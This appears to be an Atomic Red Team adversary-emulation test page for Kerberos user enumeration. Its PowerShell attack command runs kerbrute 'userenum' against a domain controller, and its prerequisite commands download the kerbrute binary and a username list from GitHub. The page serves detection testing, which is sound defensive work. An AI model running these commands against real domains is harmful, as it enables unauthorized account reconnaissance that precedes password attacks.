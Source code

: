 #### Inputs:

| Name             | Description                                    | Type   | Default Value      |
| ---------------- | ---------------------------------------------- | ------ | ------------------ |
| Domain           | Domain that is being tested against            | string | $env:USERDOMAIN    |
| DomainController | Domain Controller that is being tested against | string | $env:UserDnsDomain |

#### Attack Commands: Run with `powershell`!

```powershell
cd "PathToAtomicsFolder\..\ExternalPayloads"
.\kerbrute.exe userenum -d #{Domain} --dc #{DomainController} "PathToAtomicsFolder\..\ExternalPayloads\username.txt"
```

#### Dependencies: Run with `powershell`!

##### Description: kerbrute.exe must exist in PathToAtomicsFolder\..\ExternalPayloads.

##### Check Prereq Commands:

```powershell
if (test-path "PathToAtomicsFolder\..\ExternalPayloads\kerbrute.exe"){exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction ignore -Force | Out-Null
invoke-webrequest "https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_windows_386.exe" -outfile "PathToAtomicsFolder\..\ExternalPayloads\kerbrute.exe"
```

##### Description: username text file must exist in PathToAtomicsFolder\..\ExternalPayloads.

##### Check Prereq Commands:

```powershell
if (test-path "PathToAtomicsFolder\..\ExternalPayloads\username.txt"){exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction ignore -Force | Out-Null
invoke-webrequest "https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1087.002/src/username.txt?raw=true" -outfile "PathToAtomicsFolder\..\ExternalPayloads\username.txt"
```

<br/>
<br/>
